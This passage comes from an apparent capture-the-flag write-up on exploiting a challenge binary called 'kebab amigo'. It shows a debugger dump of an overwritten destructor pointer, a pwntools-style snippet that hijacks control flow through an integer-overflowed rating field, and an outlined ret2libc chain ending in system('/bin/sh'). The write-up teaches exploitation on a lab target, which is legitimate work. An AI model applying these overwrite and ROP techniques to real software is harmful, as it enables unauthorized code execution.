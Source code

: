 ```python
pwndbg> dq &kebab_amigo 
00000000006020a0     626162654b6e7750 0000000000000000 # char nombre[0x20]
00000000006020b0     0000000000000000 0000000000000000 # ...
00000000006020c0     aaaaaaaa00000000 0000000000400b37 # (saldo_caja | rating) | (*destructor)
```

We succesfully overwrote it! Now we have to modify the rating with ``durum_doble()`` so it jumps to ``0x400b37 <banhos_turcos>``. 

### Update rating value

To achieve this we just have to send `(MAX_INT - 1) / 2 = 1073741824`

```python

BOF_PROC = 1073741824
FIRST_PAYLOAD = 0x400b37aaaaaaaa # '\xaa\xaa\xaa\xaa\x37\x0b\x40'

[...]
def setup_bof():
    print("[+] Jumping to banhos_turcos()\n")
    baklava(str(FIRST_PAYLOAD).encode())
    durum_doble(str(BOF_PROC).encode())
    print("[*] Done! Send your ROP payload after the prompt! \n")
```

![Untitled](images/kebab-amigo-2/Untitled.png)

### Ret2libc

From now we have our typical buffer overflow exploitation path:

1. Overflow the buffer to check the padding until ``rsp``
2. Retrieve ``pop rdi; ret`` and ``ret;`` gadgets.
3. Leak ``read@GOT`` via ``puts@PLT``
4. Check libc version in a website such as [libc.rip](https://libc.rip)
5. Overflow the buffer again to call `system("/bin/sh\x00")` 
6. Read the flag

We checked with GDB that the padding is 120 bytes. 

For the gadgets you can use a tool like [ropper](https://github.com/sashs/Ropper) or [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) or using pwntools (I used this way in the script)
